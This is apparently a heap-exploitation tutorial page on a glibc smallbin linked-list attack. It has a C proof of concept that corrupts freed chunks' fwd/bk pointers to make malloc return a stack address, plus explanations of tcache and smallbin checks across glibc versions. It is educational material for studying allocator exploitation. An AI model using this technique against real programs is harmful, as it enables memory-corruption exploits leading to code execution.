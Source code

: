 <details>
<summary><strong>Description</strong></summary>
<p>

similar to the unsorted, and large bin linked list primitive **but better**...

we will be trying to get malloc to allocate a ptr on the stack. This will be done via leveraging the smallbin linked list...

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/bin_overviews/small_bins.md
- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/small_bin/linked_list/readme.md
> i modified it a little bit (more general?) (but its worth read)

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *tcache_chunks[7], x[0x30], *reallocate_chunk, *target;

    // target must be aligned 0x10 (explain later)
    for(int i = 0x10; i < 0x20; i++) {
        if((((long)&x[i]) & 0xF) == 0) {
            target = &x[i];
            break;
        }
    }
    printf("target: %p\n", target);

    // allocate chunk (must be in smallbin range in order to work)
    for(int i = 0; i < 7; i++) tcache_chunks[i] = malloc(0x300);
    chunk0 = malloc(0x300);
    malloc(0x18); // padding chunk to prevent consolidation
    chunk1 = malloc(0x300);
    malloc(0x18); // padding chunk to prevent consolidation

    for(int i = 0; i < 7; i++) free(tcache_chunks[i]); // fill up the corresponding tcache

    free(chunk0); // insert our two (soon to be small bin) chunks into the unsorted bin
    free(chunk1);

    malloc(0x300 + 0x10); // move the two unsorted bin chunks over to the small bin

    for(int i = 0; i < 7; i++) tcache_chunks[i] = malloc(0x300); // empty the corresponding tcache bin

    // make our "fake" small bin chunk
    // for this, we only need to set the `prev_size` (setting it to `0x00`), and the chunk_size
    // target[0] = 0x0000000000000000; // fake chunk's prev_size (usually we dont need to care about this)
    target[1] = 0x0000000000000311; // fake chunk's size

    // Then we go ahead, and link this chunk against the two real small bin chunks
    target[2] = ((long)chunk0 - 0x10); // fwd
    target[3] = ((long)chunk1 - 0x10); // bk

    /* now in other writeups here where we do similar things with the unsorted bin / large bin
    you will see us have to make a chunk header right after this chunk because of the 'unlink_chunk' function
    we don't have to worry about that here */

    // link the two real small bin chunks against our fake small bin chunk
    /*VULNERABILITY*/
    chunk0[1] = target; // chunk0 bk
    chunk1[0] = target; // chunk1 fwd
    /*VULNERABILITY*/
    // [smallbin 0x310]: chunk1 -> target -> chunk0

    malloc(0x300); // reallocate chunk0 from small bin, trigger smallbin dumping
    // [tcache 0x310]: chunk1 -> target

    malloc(0x300); // reallocate chunk1 from tcache

    reallocate_chunk = malloc(0x300); // allocate our fake chunk from tcache

    printf("reallocate_chunk: %p\n", reallocate_chunk);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

this will be similar to the unsorted, and large bin linked list writeups. We will make a fake chunk where we want to allocate, assign it a prev_size, chunk_size, and fwd/bk pointer. We will also overwrite the fwd/bk pointers of the chunks we are linking against, to point to this chunk (either the fwd/bk of each).

this differs fron the unsorted/large bin, in two ways. First off, due to the overlap of the tcache bin sizes, whenever we free a chunk that is to be inserted into the small bin, the corresponding tcache must be full. In addition to that, when we want to allocate a small bin chunk, the corresponding tcache bin must be empty.

the second way is beneficial to us. With the unsorted, and large bins, the chunk being allocated has a check (sometimes executed in the unlink_chunk function). That check is basically, is the prev_size of the next chunk, equal to the size of the current chunk? Of course for making a fake chunk, this could prove a bit hard to pull off. **We don't have to worry about that with the small bin**.

</p>
</details>

<details>
<summary><strong>Comment</strong></summary>
<p>

the smallbin itself doesnt have address aligned 0x10 check, but in higher glibc version (`2.31+`), we need to prepare fake chunk size and aligned address to prevent error when the smallbin tcache dumping occur...

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

> you can modify above poc without the target address aligned 0x10 restriction...

</p>
</details>